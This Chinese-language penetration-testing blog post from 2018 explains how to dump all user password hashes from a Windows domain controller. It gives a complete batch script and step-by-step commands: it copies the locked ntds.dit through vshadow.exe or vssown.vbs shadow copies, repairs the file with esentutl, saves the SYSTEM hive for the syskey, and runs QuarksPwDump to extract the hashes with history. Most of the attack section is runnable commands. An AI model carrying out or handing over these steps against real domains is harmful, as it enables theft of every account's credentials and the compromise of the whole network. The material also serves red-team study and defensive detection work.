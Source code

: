```yaml
---
layout: post
title: 导出域内所有用户hash
date: 2018-12-09 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/quarkspwdump.jpeg?raw=true)

域内用户HASH是存在域控ntds.dit中的， 它的存放位置是C:\Windows\ntds.dit。ntds.dit在系统运行过程中是被系统锁定的，无法操作，因此第一步是先把ntds.dit复制一份出来，然后导出其中的用户hash。 




### \#0x01 拷贝ntds.dit
拷贝ntds.dit的方法有多种，这里说两种经常使用的。经过测试第一种方法导出的hash数量比第一种多，原因目前尚不知。  
#### 一、使用微软官方提供的卷影拷贝工具vshadow.exe复制ntds.dit  

现在官方不提供vshadow.exe的直接下载了，可以安装官方JDK，在安装目录下可以找到vshadow.exe，这里要注意操作系统的版本，特别是xp和server 2003。  
利用官方JDK生成vshadow.exe的方法虽然不用担心后门，但是操作实在麻烦，这里提供一个runtime的工具：[ShadowCopy](https://www.runtime.org/shadow-copy.htm)，安装后在安装目录下可以找到各系统版本对应的vshadow.exe。  


为了方便使用vshadow.exe，这里提供一个脚本：ShadowCopy.bat，内容如下：  
```
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
```
vshadow.exe和ShadowCopy.bat上传到域控的同一目录，执行完ShadowCopy.bat后，ntds.dit便会被复制到当前目录。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vshadow_bat.jpeg?raw=true)

在导出hash之前，ntds.dit需要使用esentutl工具修复  
```
esentutl /p /o ntds.dit
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/esentutl.jpeg?raw=true)

导出ntds.dit后为了解密，还需要导出syskey   
```
reg save hklm\system c:\perflogs\system.hive
```

#### 二、使用vssown.vbs复制ntds.dit
vssown.vbs脚本在这里下载的：[vssown.vbs](https://github.com/PythonPig/pentest-tools/blob/master/password-cracking/vssown.vbs)  

查看vssown.vbs的使用方法：  
cscript vssown.vbs，主要的命令如下：  
```
cscript vssown.vbs /start
cscript vssown.vbs /list
cscript vssown.vbs /create c
cscript vssown.vbs /delete id
cscript vssown.vbs /stop
```
1、启动服务  
```
cscript vssown.vbs /start
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20start.jpeg?raw=true)

2、查看系统已有的快照并记录  
```
cscript vssown.vbs /list
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20list.jpeg?raw=true)

3、创建c盘快照  
```
cscript vssown.vbs /create c
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20create.jpeg?raw=true)

4、查看新增的快照  
```
cscript vssown.vbs /list
```
通过与第2步中的快照对比可知哪个快照是新增的，执行命令后最先显示出的快照一般是最新创建的。  
记录最新创建快照的ID和Device Object  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20list2.jpeg?raw=true)

5、从快照中拷贝ntds.dit和syskey  
本次操作需要使用第4步中得到的快照ID和Device Object  
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\ntds\ntds.dit C:\perflogs
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\system32\config\SYSTEM C:\perflogs\system.hive
```
拷贝ntds.dit：
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20copy%20ntds.jpeg?raw=true)  

拷贝syskey：
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20copy%20syskey.jpeg?raw=true)

syskey也可以这样导出  
```
reg save hklm\system c:\perflogs\system.hive
```

6、删除快照并停止服务  
```
cscript vssown.vbs /delete {D61DE4C9-029E-42E7-9A93-64529039FD54}
cscript vssown.vbs /stop
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/vssown%20delete%20stop.jpeg?raw=true)

### \#0x02 从ntds.dit导出所有用户hash
因为ntds.dit文件一般比较大，传回本地不太方便，所以直接在目标服务器上导出用户hash。    

```
QuarksPwDump.exe --dump-hash-domain --with-history --ntds-file c:\perflogs\ntds.dit --system-file c:\perflogs\system.hive -o c:\perflogs\res.txt
```

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E6%89%80%E6%9C%89%E7%94%A8%E6%88%B7hash/quarkspwdump.jpeg?raw=true)

一定要注意这里要使用绝对路径，选项参数之间只能有一个空格，用到的[QuarksPwDump.exe在这里](https://github.com/quarkslab/quarkspwdump)，下载源码后vs2010直接编译即可

### \#0x03 参考
* [完整导出域内用户hash小记 (vshadow + ShadowCopy + QuarksPwDump)](https://klionsec.github.io/2016/08/14/shadow-copy-hash/)
* [导出域内用户hash的几种方法](https://cloud.tencent.com/developer/article/1165439)  

